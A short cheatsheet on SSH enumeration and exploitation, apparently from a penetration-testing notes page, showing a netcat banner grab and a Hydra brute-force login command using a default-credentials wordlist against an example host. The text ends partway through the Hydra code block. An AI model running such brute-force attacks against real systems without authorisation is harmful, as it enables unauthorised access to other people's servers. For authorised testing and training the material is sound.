 # SSH Exploitation and Enumeration Cheatsheet

## Banner Grabbing

```bash
nc -vn 192.168.1.1 22
```

## Brute Force SSH with Hydra

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://192.168.1.1
